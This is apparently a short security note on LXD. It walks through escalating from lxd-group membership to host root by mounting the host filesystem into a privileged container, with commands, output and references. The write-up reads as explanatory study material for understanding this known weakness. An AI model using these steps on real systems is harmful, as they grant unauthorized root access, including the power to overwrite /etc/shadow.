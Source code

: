## LXD {#lxd}

## Privileged Containers

All bets are off with privileged containers, to test out creating one we want to do the following

```bash
sudo su
lxc launch ubuntu:16.04 --security.privileged=true
lxc exec <name> bash
useradd tecmint
passwd tecmint
mkdir /home/tecmint
chown tecmint:tecmint /home/tecmint
usermod -a -G lxd tecmint
su tecmint
```

If you have either root privileges within a privileged container, or are a member of the lxd group, you can easily get root access on the host.  To do this, you'll have to mount the root directory under a container.

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

Here we see us creating a file within the /root/ directory under the mountpoint as shown.

```bash
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit
```

And so we see that the file has been created within our root directory.

```bash
ubuntu@ubuntu:~$ sudo su 
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#
```

This can be used quite trivially for container escape, as mounting the root directory in a nested container will mount the hosts container as all lxd commands run on the host.  While you won't be able to run arbitrary code on the host, you can write and read any file with root privileges, allowing you to, for example, write a new root password in the /etc/shadow folder.

References:

[https://linuxcontainers.org/lxc/getting-started/](https://linuxcontainers.org/lxc/getting-started/)

[https://github.com/lxc/lxd/issues/2003](https://github.com/lxc/lxd/issues/2003)

[https://reboare.github.io/lxd/lxd-escape.html](https://reboare.github.io/lxd/lxd-escape.html)

[https://insights.ubuntu.com/2017/06/15/custom-user-mappings-in-lxd-containers/](https://insights.ubuntu.com/2017/06/15/custom-user-mappings-in-lxd-containers/)

